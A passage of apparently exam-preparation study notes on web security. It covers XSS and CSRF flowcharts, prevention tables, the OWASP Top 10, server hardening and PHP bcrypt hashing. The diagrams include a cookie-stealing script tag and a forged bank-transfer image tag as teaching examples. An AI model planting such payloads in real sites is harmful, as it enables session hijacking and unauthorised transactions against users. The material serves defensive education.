    A["1 . Attacker posts a comment containing<br/>&lt;script&gt;steal(document.cookie)&lt;/script&gt;"] --> B["2 . The server SAVES it without encoding"]
    B --> C["3 . A victim opens the page"]
    C --> D["4 . The server sends the script<br/>as part of the trusted page"]
    D --> E["5 . The victim's browser EXECUTES it —<br/>it trusts the site's own domain"]
    E --> F["6 . 🕵️ The session cookie is sent<br/>to the attacker's server"]
    F --> G["7 . The attacker HIJACKS the session<br/>and acts as the victim"]
```

#### What XSS allows

Session cookie theft and **session hijacking** · **keylogging** the victim's typing · defacing the page · redirecting to a phishing site · performing **actions as the victim** (transfer money, change the email address) · installing a **browser-based keylogger or crypto-miner** · stealing data displayed on the page · **bypassing CSRF protection** (a script on the page can read the anti-CSRF token).

#### Prevention of XSS

| # | Countermeasure | Explanation |
|---|---|---|
| **1** | **Output encoding / escaping — the primary fix** | Encode every piece of untrusted data **for the context in which it is placed**: HTML body (`<` → `&lt;`), HTML attribute, JavaScript, CSS, URL. **Encode on OUTPUT, not on input** |
| **2** | **Input validation (whitelist)** | Accept only the expected characters and format |
| **3** | **Content Security Policy (CSP)** | An HTTP header telling the browser **which script sources are allowed**, blocking inline scripts entirely — the strongest defence-in-depth control |
| **4** | **`HttpOnly` cookie flag** | Makes the session cookie **unreadable by JavaScript**, defeating cookie theft even if XSS succeeds |
| **5** | **`Secure` and `SameSite` cookie flags** | HTTPS-only and cross-site restrictions |
| **6** | **Use a framework's auto-escaping** | React, Angular, Vue, Django and Laravel escape output by default — **do not disable it** (`dangerouslySetInnerHTML`, `\|safe`, `v-html`) |
| **7** | **Sanitise rich HTML with a proven library** | If users must submit HTML, use **DOMPurify** or the OWASP Java HTML Sanitizer — never a hand-written regex |
| **8** | **Avoid dangerous sinks** | `innerHTML`, `document.write`, `eval()`, `setTimeout("string")` |
| **9** | **`X-Content-Type-Options: nosniff`** and correct `Content-Type` headers | Prevents the browser from reinterpreting data as script |
| **10** | **WAF and regular testing** | Defence in depth |

#### Cross-Site Request Forgery (CSRF / XSRF)

**CSRF** is an attack that **tricks an authenticated user's browser into sending an unwanted request to a site where they are already logged in** — performing an action **without the user's knowledge or consent**.

> **The root cause:** the browser **automatically attaches the session cookie to every request** to a domain, regardless of which site triggered the request. The server therefore cannot tell a genuine user action from a forged one.

#### How CSRF works

```mermaid
flowchart TD
    A["1 . The victim logs into bank.com<br/>— the browser holds a valid session cookie"] --> B["2 . WITHOUT logging out, the victim visits<br/>a malicious or compromised site"]
    B --> C["3 . That page silently contains:<br/>&lt;img src='https://bank.com/transfer?to=attacker&amp;amount=100000'&gt;<br/>or an auto-submitting hidden form"]
    C --> D["4 . The browser sends the request to bank.com<br/>AND AUTOMATICALLY INCLUDES the session cookie"]
    D --> E["5 . bank.com sees a valid, authenticated request<br/>and EXECUTES THE TRANSFER"]
    E --> F["❌ Money transferred. The victim<br/>never saw or approved anything"]
```

#### XSS vs CSRF — the key distinction

| Point | **XSS** | **CSRF** |
|---|---|---|
| **What is exploited** | The **user's trust in the WEBSITE** | The **website's trust in the USER** |
| **Attack direction** | Malicious code is **injected into the site** and runs in the victim's browser | A **forged request is sent TO the site** from elsewhere |
| **Requires a script on the target site?** | ✅ Yes | ❌ No |
| **Can the attacker read the response?** | ✅ **Yes** — full access to the page and its data | ❌ **No** — it is a "fire and forget" write action |
| **Victim must be logged in?** | Not necessarily | ✅ **Yes — essential** |
| **Steals data?** | ✅ Yes — cookies, page content, keystrokes | ❌ No — it only **performs actions** |
| **Root cause** | Failure to **encode output** | Failure to **verify the ORIGIN of the request** |
| **Main defence** | **Output encoding + CSP + HttpOnly** | **Anti-CSRF tokens + SameSite cookies** |
| **Relationship** | **XSS defeats CSRF protection** — a script on the page can simply read the anti-CSRF token. So XSS must be fixed first | |

#### Prevention of CSRF

| # | Countermeasure | Explanation |
|---|---|---|
| **1** | **Anti-CSRF tokens (synchroniser tokens)** ⭐ | The server embeds a **random, unpredictable, per-session token in every form**, and rejects any state-changing request without the correct token. The attacker's site **cannot read it** (blocked by the same-origin policy) and cannot guess it |
| **2** | **`SameSite` cookie attribute** | `SameSite=Strict` or `Lax` tells the browser **not to send the cookie on cross-site requests** — a simple and very effective modern defence |
| **3** | **Verify the `Origin` and `Referer` headers** | Reject state-changing requests that did not originate from your own domain |
| **4** | **Use POST (never GET) for state-changing actions** | GET requests can be triggered by a mere `` tag |
| **5** | **Re-authentication / step-up authentication** | Require the password, an **OTP** or a transaction PIN for high-value operations such as a fund transfer |
| **6** | **Short session timeouts** and explicit logout | Shrinks the window of opportunity |
| **7** | **CAPTCHA** on sensitive actions | Ensures a human is present |
| **8** | **Custom request headers for AJAX** | Cross-origin requests cannot set custom headers without a CORS pre-flight |
| **9** | **Fix XSS first** | Any XSS flaw nullifies every CSRF defence |

**Previous Year Question List from this Topic:**

- [Describe the SQL Injection and Cross-Site Scripting (XSS) web security threats and suggest preventive measures for each.](../written-answers/computer-network-security.md?plain=1#L3028)
- [What is Cross site script and SQL injection?](../written-answers/computer-network-security.md?plain=1#L3119)
- [What is CSRF attack?](../written-answers/computer-network-security.md?plain=1#L3146)
- [What is CSRF and XSS?](../written-answers/computer-network-security.md?plain=1#L3180)
- [(b) Explain XSS and CSRF (how do you prevent these attacks).](../written-answers/computer-network-security.md?plain=1#L3251)
- [Write two differences between SQL Injection and cross site scripting (XSS).](../written-answers/computer-network-security.md?plain=1#L3398)
- [What is Cross site script XSS and how can fix it?](../written-answers/computer-network-security.md?plain=1#L3449)
- [(খ) Cross Site Scripting (XSS) বলতে কী বোঝায়? এর হাত থেকে রক্ষা পাওয়ার পদ্ধতিগুলো লিখুন।](../written-answers/computer-network-security.md?plain=1#L3590)


---

### Securing a Web Server and a Web Application

#### The OWASP Top 10 — the standard list of web application risks

| # | Risk | Meaning |
|---|---|---|
| 1 | **Broken Access Control** | Users can reach data or functions they should not (e.g. changing an ID in the URL) |
| 2 | **Cryptographic Failures** | Sensitive data transmitted or stored without proper encryption |
| 3 | **Injection** | **SQL injection**, command injection, LDAP injection, **XSS** |
| 4 | **Insecure Design** | Flaws in the architecture itself, not the code |
| 5 | **Security Misconfiguration** | Default passwords, verbose errors, unnecessary features enabled, open cloud buckets |
| 6 | **Vulnerable and Outdated Components** | Unpatched libraries and frameworks |
| 7 | **Identification and Authentication Failures** | Weak passwords, no MFA, poor session management |
| 8 | **Software and Data Integrity Failures** | Unsigned updates, insecure CI/CD, **supply-chain attacks** |
| 9 | **Security Logging and Monitoring Failures** | Breaches go undetected for months |
| 10 | **Server-Side Request Forgery (SSRF)** | The server is tricked into making requests to internal systems |

#### Steps to secure a web server

**1. Harden the operating system and the server**
- Apply **all security patches** promptly and automate the process.
- **Remove or disable everything unnecessary** — unused services, sample applications, default pages, unused modules and ports.
- Change every **default credential**; delete default accounts.
- Run the web server under a **dedicated low-privilege account**, never as root/Administrator.
- Apply **file-system permissions** carefully; make directories non-writable where possible.
- Enable a **host firewall** and allow only ports 80, 443 and a restricted management port.

**2. Encrypt everything in transit**
- **HTTPS only**, with a valid certificate from a trusted CA.
- Enforce **TLS 1.2/1.3**; disable SSLv2, SSLv3, TLS 1.0/1.1 and weak ciphers.
- **Redirect all HTTP to HTTPS** and enable **HSTS**.
- Use **Perfect Forward Secrecy** cipher suites.

**3. Set security headers**

| Header | Purpose |
|---|---|
| `Strict-Transport-Security` | Forces HTTPS for future visits |
| `Content-Security-Policy` | Blocks unauthorised scripts — the main XSS defence in depth |
| `X-Frame-Options: DENY` | Prevents **clickjacking** via iframes |
| `X-Content-Type-Options: nosniff` | Stops MIME sniffing |
| `Referrer-Policy` | Limits information leakage |
| `Permissions-Policy` | Restricts camera, microphone, geolocation |

**4. Secure the application**
- **Parameterised queries** everywhere (SQL injection).
- **Output encoding** everywhere (XSS).
- **Anti-CSRF tokens** and `SameSite` cookies.
- **Validate all input** on the **server side** (client-side validation is only a convenience).
- **Hash passwords** with **bcrypt/Argon2 + salt** — never MD5, never plaintext, never reversible encryption.
- Enforce **strong password policy, account lockout and MFA**.
- Secure **session management**: random IDs, `HttpOnly`+`Secure`+`SameSite`, regeneration on login, timeout.
- **Restrict file uploads** — validate type and size, store outside the web root, never execute uploaded files.
- **Generic error messages**; disable directory listing and server banners.

**5. Control access**
- **Least privilege** for every account and service.
- Restrict the **admin panel** by IP, VPN and MFA.
- Disable **root SSH login**; use key-based authentication on a non-default port.

**6. Deploy protective layers**
- A **WAF** in front of the application.
- **DDoS protection / CDN**.
- **IDS/IPS** and **file-integrity monitoring**.
- Place the web server in a **DMZ**, with the **database in the internal network**.

**7. Monitor, back up and test**
- **Centralised logging** to a SIEM; alert on anomalies.
- **Regular, tested backups**, stored off-site.
- **Vulnerability scanning and penetration testing** on a schedule.
- A documented, rehearsed **incident response plan**.

#### Encrypting passwords in PHP

```php
// REGISTRATION — hash the password with bcrypt (never store it in plain text)
$hash = password_hash($password, PASSWORD_DEFAULT);   // auto-generates a salt
// store $hash in the database

// LOGIN — verify
if (password_verify($inputPassword, $storedHash)) {
    session_regenerate_id(true);        // ← prevents SESSION FIXATION
    $_SESSION['user_id'] = $userId;
    // ...
}
```

> **Never use `md5($password)` or `sha1($password)`** — they are fast, unsalted and trivially reversed with rainbow tables. **`password_hash()` / bcrypt / Argon2** are deliberately **slow and salted**, which is exactly what password storage requires. The username is not encrypted — it is an identifier, not a secret; it is the **password** that must never be recoverable.

**Previous Year Question List from this Topic:**

- [Your bank wants to secure an e-banking online system and wants to configure a web server in your data center. What kind of tools and technology do you use for t…](../written-answers/computer-network-security.md?plain=1#L3283)
- [Write the difference types of Web application attacks?](../written-answers/computer-network-security.md?plain=1#L3361)
- [What is session hijacking and how to encrypt username and password in PHP?](../written-answers/computer-network-security.md?plain=1#L3619)
- [What are the important steps to secure a web server?](../written-answers/computer-network-security.md?plain=1#L3667)
- [As a programmer when you release a software What security should you check before release your software.](../written-answers/computer-network-security.md?plain=1#L4292)
